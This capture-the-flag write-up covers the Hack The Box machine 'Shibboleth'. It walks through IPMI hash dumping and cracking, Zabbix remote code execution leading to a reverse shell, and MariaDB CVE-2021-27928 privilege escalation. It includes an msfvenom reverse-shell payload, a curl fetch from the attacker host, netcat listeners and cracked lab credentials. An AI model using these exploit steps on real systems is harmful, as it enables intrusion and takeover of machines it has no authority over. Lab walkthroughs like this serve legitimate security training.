 ```yaml
---
layout: default
---
```


# Shibboleth

# Skills

# Enumeration

The inital enumeration showed only port 80 open.

```bash
# Nmap 7.94 scan initiated Wed Nov  1 16:29:49 2023 as: nmap -p- -n -Pn -vvv -oG fast_2 10.10.11.124
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.124 ()   Status: Up
Host: 10.10.11.124 ()   Ports: 80/open/tcp//http///     Ignored State: closed (65534)
# Nmap done at Wed Nov  1 16:30:23 2023 -- 1 IP address (1 host up) scanned in 33.66 seconds
```

To access the web we need `shibboleth.htb` to point to the machine IP. In this web server we won’t find anything, so we need to enumerate in other parts:

- We could try to look for subdomains
- We could scan UDP ports and check if any of them are opened

Scanning UDP ports reported the following:

```python
PORT    STATE SERVICE  REASON
623/udp open  asf-rmcp udp-response ttl 63
```

Looking in Hacktricks we can see that we can enumerate and potentially get the password hash of the users of this service. First we will enumerate users, but we have to guess one existing user. We can try tipical admin user names and in the end we got one.

```bash
┌──(kali㉿kali)-[~/machines/linux/shibboleth/ipmitool]
└─$ ipmitool -I lanplus -C 0 -H 10.10.11.124 -U Administrator -P root user list
ID  Name             Callin  Link Auth  IPMI Msg   Channel Priv Limit
1                    true    false      false      USER
2   Administrator    true    false      true       USER
3                    true    false      false      Unknown (0x00)
4                    true    false      false      Unknown (0x00)
5                    true    false      false      Unknown (0x00)
6                    true    false      false      Unknown (0x00)
7                    true    false      false      Unknown (0x00)
8                    true    false      false      Unknown (0x00)
9                    true    false      false      Unknown (0x00)
10                   true    false      false      Unknown (0x00)
11                   true    false      false      Unknown (0x00)
12                   true    false      false      Unknown (0x00)
13                   true    false      false      Unknown (0x00)
14                   true    false      false      Unknown (0x00)
15                   true    false      false      Unknown (0x00)
16                   true    false      false      Unknown (0x00)
17                   true    false      false      Unknown (0x00)
18                   true    false      false      Unknown (0x00)
19                   true    false      false      Unknown (0x00)
20                   true    false      false      Unknown (0x00)
21                   true    false      false      Unknown (0x00)
22                   true    false      false      Unknown (0x00)
23                   true    false      false      Unknown (0x00)
24                   true    false      false      Unknown (0x00)
25                   true    false      false      Unknown (0x00)
26                   true    false      false      Unknown (0x00)
27                   true    false      false      Unknown (0x00)
```

Next thing is to retrive his hash, searching in google will gives us the correct tool for this,

```bash
┌──(kali㉿kali)-[~/machines/linux/shibboleth/ipmiPwner]
└─$ sudo python ipmipwner.py --host 10.10.11.124 -u Administrator -c john --password-wordlist /usr/share/wordlists/rockyou.txt --output-hash hash
[*] Checking if port 623 for host 10.10.11.124 is active
[*] The username: Administrator is valid                                                  
[*] Saving hash for user: Administrator in file: "hash"
[*] The hash for user: Administrator
   \_ $rakp$a4a3a2a002140000cc9a3032dc9cdd2bfbc03d23cbdfa7654bdb75e08c9d986c5b4b343c053bdb67a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$798cb1a1d25dc7c9b3c6a6267d77d602f5092151
[*] Starting the hash cracking with john
                                                                                                                                                                                                                                            
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 128/128 SSE2 4x])
Will run 8 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
ilovepumkinpie1  (10.10.11.124 Administrator)     
1g 0:00:00:00 DONE (2023-11-02 12:49) 1.265g/s 9457Kp/s 9457Kc/s 9457KC/s in_SecT..iarhsm
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And we got `Administrator:ilovepumkinpie1` as new credentials, but there is no SSH in the machine or login panel in the web, so we are missing something. We will enumerate subdomains.

```bash
┌──(kali㉿kali)-[~/machines/linux/shibboleth]
└─$ wfuzz --hc 404 -L  -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -H 'Host: FUZZ.shibboleth.htb' http://shibboleth.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shibboleth.htb/
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000001601:   200        29 L     219 W      3684 Ch     "monitor"
```

We got one subdomain called `monitor.shibboleth.htb` . This is a virtual host so we add it to the **hosts** file and acccess the new domain. Here we can see a login panel and our gathered credentials actually work. 

# Foothold

As we can see the web is a Zabbix service, which is used to monitor net elements. We can try to search in Google if there is any way to execute commands, and indeed, there is one.  We can use the following exploit [https://www.exploit-db.com/exploits/50816](https://www.exploit-db.com/exploits/50816) to execute a command in the server. 

```bash
┌──(kali㉿kali)-[~/machines/linux/shibboleth]
└─$  python rce.py http://monitor.shibboleth.htb Administrator ilovepumkinpie1 10.10.14.12 4444
[*] this exploit is tested against Zabbix 5.0.17 only
[*] can reach the author @ https://hussienmisbah.github.io/
[+] the payload has been Uploaded Successfully
[+] you should find it at http://monitor.shibboleth.htb/items.php?form=update&hostid=10084&itemid=33617
[+] set the listener at 4444 please...
[?] note : it takes up to +1 min so be patient :)
[+] got a shell ? [y]es/[N]o:
```

We are supposed to have a shell in less than a minute but if not we can access the link and click on **Execute Now** bottom and in less than a minute we will have a shell in our listener.

```bash
┌──(kali㉿kali)-[~/machines/linux/shibboleth/ipmitool]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.124] 48896
sh: 0: can't access tty; job control turned off
$ whoami     
zabbix
```

# Privilege escalation

We can check what other users are in the system, after getting a full interactive shell.

```bash
zabbix@shibboleth:/$ cat /etc/passwd | grep sh  
root:x:0:0:root:/root:/bin/bash
ipmi-svc:x:1000:1000:ipmi-svc,,,:/home/ipmi-svc:/bin/bash
```

Since we see a user we can try the password `ilovepumkinpie1` to log in as hi, and we get a shell as this new user. 

```bash
zabbix@shibboleth:/$ su ipmi-svc    
Password: 
ipmi-svc@shibboleth:/$
```

This new user must have any new rights that we can leverage in order to escalate privileges, but we are in no new groups and we cannot execute sudo. We can try to look for files in other directories out from our home directory that belongs to the user `ipmi-svc` or to his group. Diretories that we want to search are normally `/etc`, `/var` and `/opt` .

```bash
ipmi-svc@shibboleth:~$ find /etc/ -user 'ipmi-svc' 2>/dev/null -ls
ipmi-svc@shibboleth:~$ find /etc/ -group 'ipmi-svc' 2>/dev/null -ls
1885     24 -rw-r-----   1 root    ipmi-svc    22306 Oct 18  2021 /etc/zabbix/zabbix_server.conf.dpkg-dist
39531    24 -rw-r-----   1 root    ipmi-svc    21863 Apr 24  2021 /etc/zabbix/zabbix_server.conf
```

If check what’s inside  `/etc/zabbix/zabbix_server.conf` we will get a lot of commented lines. We can erase those from the output with the following command.

```bash
ipmi-svc@shibboleth:~$ cat /etc/zabbix/zabbix_server.conf | grep -vE '^#' | sed '/^\s*$/d'
LogFile=/var/log/zabbix/zabbix_server.log
LogFileSize=0
PidFile=/run/zabbix/zabbix_server.pid
SocketDir=/run/zabbix
DBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluh
SNMPTrapperFile=/var/log/snmptrap/snmptrap.log
Timeout=4
AlertScriptsPath=/usr/lib/zabbix/alertscripts
ExternalScripts=/usr/lib/zabbix/externalscripts
FpingLocation=/usr/bin/fping
Fping6Location=/usr/bin/fping6
LogSlowQueries=3000
StatsAllowedIP=127.0.0.1
```

And we get a password and a user for the database. Next step is to connect to the database.

```bash
ipmi-svc@shibboleth:~$ mysql -uzabbix -pbloooarskybluh 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 483
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

The first thing we can check if the MariaDB version which is `10.3.25-MariaDB-0ubuntu0.20.04.1` . The result is a PrivEsc exploit for the version, we can get it from this repository https://github.com/Al1ex/CVE-2021-27928. Following the steps, we can finally get a shell as root.

- First we generate our payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=5555 -f elf-so -o CVE-2021-27928.so
```

- Then we upload this to the victim and set a listener in the specified port

```bash
ipmi-svc@shibboleth:~$ curl 10.10.14.12/CVE-2021-27928.so -o CVE-2021-27928.so
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   476  100   476    0     0   4533      0 --:--:-- --:--:-- --:--:--  4533
ipmi-svc@shibboleth:~$ ls
CVE-2021-27928.so  user.txt
```

- We trigger the vulnerability

```bash
ipmi-svc@shibboleth:~$ mysql -uzabbix -pbloooarskybluh -e 'SET GLOBAL wsrep_provider="/home/ipmi-svc/CVE-2021-27928.so";'
ERROR 2013 (HY000) at line 1: Lost connection to MySQL server during query
```

Finally we should get a shell in our listener.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.124] 44314
whoami
root
```